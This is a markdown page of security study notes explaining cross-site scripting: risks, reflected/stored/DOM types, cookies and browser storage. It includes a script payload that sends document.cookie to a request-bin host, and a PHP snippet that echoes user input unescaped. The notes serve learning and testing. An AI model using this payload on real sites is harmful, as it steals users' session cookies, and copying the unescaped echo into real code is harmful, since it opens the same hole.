 #### 1.1. What is XSS (Cross Site-Scripting)

- client side attack that allows JS code to be executed in the context of the target application on the behalf of a user

- associated risks
	* load malicious JS in the browser on the behalf of the user (authenticated/unauthenticated)
	* inject HTML code in the page to harvest credentials (redirect to fake login page / modify the original page)
	* perform actions related to application functionality (CSRF or CSRF bypass)
	* browser extension can run any JS on any page you visit (parses "evil.com" page containing payload to abuse your browser)
	* run browser exploit to obtain a shell on the underlying OS (JS engine as primary target)
	* [obsolete] run code based on browser plug-in: Silverlight, Flash, Java Applets

- XSS types
	* reflected XSS (payload needs to be in the request and reflected in the response)
	* persistent XSS (stored on the server side; loads in the context of many users who visit the "injected" page)
	* DOM based XSS (we take advantage of the JS code of the app to run our payloads)

- note about cookies/HTTP session
    * most useful for documenting your PoC `document.cookie`
	* HTTP response header will have `Set-Cookie` (e.g. tells the browser to save a session ID)
	* HTTP request header will have `Cookie` (e.g. `PHPSESSID` for authenticated user session)

- access browser storage via JS (may contain app secrets/cookies/JWT):
```js
document.cookie
localStorage
sessionStorage
```

- exfil cookie via JS 
	* `window.location`
	* `document.location`
	* Ajax request (`https://requestbin.com/` as cookie grabber)
```
<script>var x=new XMLHttpRequest();x.open("GET","https://XXXXXXXXX.x.pipedream.net/LOL?cookie="%2bdocument.cookie);x.send();</script>
```

#### 1.2. XSS (reflected) in a nutshell

Site: `vulnerable.com`
```php
<?php
// no input validation or output encoding
$name = $_GET['name'];
echo "Hello " . $name;
```
Regular use:
```
$ http http://vulnerable.com/?name=David
```

